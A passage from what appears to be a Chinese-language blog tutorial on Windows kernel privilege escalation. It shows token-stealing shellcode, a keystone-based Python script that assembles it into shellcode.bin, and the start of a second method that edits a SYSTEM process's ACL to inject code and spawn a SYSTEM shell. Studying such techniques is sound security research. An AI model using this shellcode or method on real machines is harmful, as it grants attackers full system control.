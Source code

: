```python
	sub rax, 0x2f0                
	cmp  byte ptr [rax + 0x2e8],4  
    jne loop2
mov rcx,rax 
add rcx,0x360 
mov rbx, [rcx]  
mov [rdx],rbx 
ret
"""


'''
mov r9,qword ptr gs:[0x188] capstone支持的不好，汇编出来的是不对的
不要问我为什么，我也想知道为什么 .....
有时间了去看看keystone的源代码了，看能不能修
'''

# CODE = """mov r9,qword ptr gs:[0x188]"""

try:

    ks = k.Ks(k.KS_ARCH_X86, k.KS_MODE_64)
    encoding, count = ks.asm(CODE)
    '''
       补充 mov r9,qword ptr gs:[0x188] 的的操作码
    '''
    read_gs = [ 0x65 ,0x4C, 0x8B ,0x0C,0x25, 0x88 ,0x01 ,0x00 ,0x00 ]
    encoding = read_gs + encoding
    print(encoding)
    # print("%s = %s (number of statements: %u)" %(CODE, encoding, count))
    with open("shellcode.bin","wb") as fd:
        fd.write( bytes( encoding ) )
except k.KsError  as e:
    print("ERROR: %s" %e)
```

记得关闭系统的UAC和windows defender，最后测试结果如下，提权成功 ：

![](https://pic.wonderkun.cc//uploads/note/20210822195418.png)

windows defender的内存扫描可以把这个shellcode判黑，还是挺厉害的。

## 方法二：编辑ACL/ACE

此方法在2012年就提出了，主要思想是编辑一个高权限的系统进程的`SecurityDescriptor`，将它修改为NULL，这样会导致一个低权限的用户能够修改和编辑高权限的进程，然后进行进程注入，弹出具有system权限的shell。但是直接将 `SecurityDescriptor` 置0的操作已经被windows patch了。虽然直接修改为NULL会造成蓝屏，但是这并不意味着我们不能修改`SecurityDescriptor`, 我们可以修改的ACL列表，让任意用户可以访问此进程。不过这意味着之前一个内核中的一个任意地址置零就可以利用的漏洞，现在必须通过任意地址写才可以利用了。

我们先将`SecurityDescriptor` 修改为0，看一下会发生什么：

首先windows的内核对象前都有一个 `_object_header`的结构，它的大小是0x30:
